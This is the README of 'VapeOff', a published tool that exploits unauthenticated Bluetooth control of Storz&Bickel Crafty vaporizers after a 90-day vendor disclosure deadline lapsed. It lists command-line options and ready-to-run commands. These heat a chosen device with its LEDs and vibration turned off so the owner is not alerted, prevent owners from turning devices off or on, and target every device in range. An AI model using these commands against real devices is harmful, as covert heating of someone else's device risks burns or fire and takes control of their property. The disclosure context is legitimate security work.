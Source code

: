 # VapeOff
VapeOff is a tool wich uses the lack of authentication in the communication protocoll, to control vaporizers (at the moment only the Crafty) from Storz&Bickel. The issue was reported to Storz&Bickel on 15 August 2019. The 90 days deadline expired on 13.11.2019 without reaction, and therefore this script will be published without fix for the devices.

Currently it is possible to heat devices up (without led and vibration) and prevent shutdown by the owner, to prevent turning devices on and to let all craftys in proximity vibrate and blink.

## Usage
```
usage: vapeoff.py [-h] [-i INTERFACE] [-m MAC] [-a] [-o] [-p] [-s] [-f]
                  [-t TARGET_TEMP] [-l] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        specify interface (default: hci0)
  -m MAC, --mac MAC     specify target mac (default: None)
  -a, --all             attack all devices in area, overwrites '--mac'
                        (default: False)
  -o, --heat            start device(s) (default: False)
  -p, --perm            enable permanent bluetooth (default: False)
  -s, --silent          deactivate vibration and leds of devices (default:
                        False)
  -f, --vibrate         let devices vibrate (default: False)
  -t TARGET_TEMP, --target_temp TARGET_TEMP
                        sets the target temperature (default: None)
  -l, --list-devices    run discovery and print macs of supported devices in
                        the area. Can be combined with '--mac' and '--all'
                        (default: False)
  -v, --verbose
```

## Examples

Turning all Crafty's (with bluetooth enabled) on in proximity and activates permament bluetooth.
```
python3 vapeoff.py -o -a --perm
```
Turning on only a specified device without notification of the owener
```
python3 vapeoff.py -o -m [MAC] --silent
```

Preventing tuning on of all Crafty's in proximity
As soon as the device is turned on this script connects and stops the heating.
```
python3 vapeoff.py -a
```

Letting all Crafty's (with bluetooth enabled) in proximity vibrate and blink
```
python3 vapeoff.py -a -f
```

## Workarounds

a) Sometimes disconnecting fails. In this case the connection must be disconnected manually. This is possible via Bluetooth Manager or resetting the Bluetooth interface. 

## Dependencies
* python3
* bitstring
* gatt>=0.2.7
